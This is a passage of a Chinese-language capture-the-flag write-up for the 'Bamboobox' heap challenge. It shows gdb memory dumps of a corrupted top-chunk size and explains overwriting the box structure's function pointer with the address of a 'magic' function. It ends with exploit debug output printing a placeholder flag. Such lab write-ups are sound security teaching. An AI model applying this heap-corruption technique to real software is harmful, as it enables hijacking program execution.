 ```sh
0x603060:       0x6161616161616161      0x6161616161616161
0x603070:       0x0000000000000000      0x00ffffffffffff91
0x603080:       0x0000000000000000      0x0000000000000000
0x603090:       0x0000000000000000      0x0000000000000000
```
之后将 magic 函数地址作为 item2 的 name 写入到新分配的 chunk 中，覆盖 box 结构体中的函数指针，进行劫持程序执行流程。
```sh
gdb-peda$ x/20x 0x603000                                                        
0x603000:       0x0000000000000000      0x0000000000000031
0x603010:       0x0000000000400d49      0x0000000000400d49
0x603020:       0x000000000000000a      0x0000000000000051
0x603030:       0x6161616161616161      0x0000000000000039
0x603040:       0x6161616161616161      0x6161616161616161
0x603050:       0x6161616161616161      0x6161616161616161
0x603060:       0x6161616161616161      0x6161616161616161
0x603070:       0x0000000000000000      0x00ffffffffffff91
0x603080:       0x0000000000000000      0x0000000000000000
0x603090:       0x0000000000000000      0x0000000000000000
gdb-peda$ telescope 0x400d49
0000| 0x400d49 (<magic>:        push   rbp)
0008| 0x400d51 (<magic+8>:      mov    rax,QWORD PTR fs:0x28)
0016| 0x400d59 (<magic+16>:     add    BYTE PTR [rax-0x77],cl)
0024| 0x400d61 (<magic+24>:     add    BYTE PTR [rax],al)
0032| 0x400d69 (<magic+32>:     add    BYTE PTR [rax+0x0],bh)
0040| 0x400d71 (<magic+40>:     stc)
0048| 0x400d79 (<magic+48>:     rex.WRB xchg r8,rax)
0056| 0x400d81 (<magic+56>:     add    BYTE PTR [rax],al)
```

### 5) 退出程序
退出程序时会调用 goodbye_message 函数，从而执行 magic 输出 flag。
```sh
[DEBUG] Sent 0x2 bytes:
    '5\n'
[DEBUG] Received 0xe0 bytes:
    '----------------------------\n'
    'Bamboobox Menu\n'
    '----------------------------\n'
    '1.show the items in the box\n'
    '2.add a new item\n'
    '3.change the item in the box\n'
    '4.remove the item in the box\n'
    '5.exit\n'
    '----------------------------\n'
    'Your choice:'
[DEBUG] Received 0x13 bytes:
    'flag{this_is_flag}\n'
flag{this_is_flag}
```

---
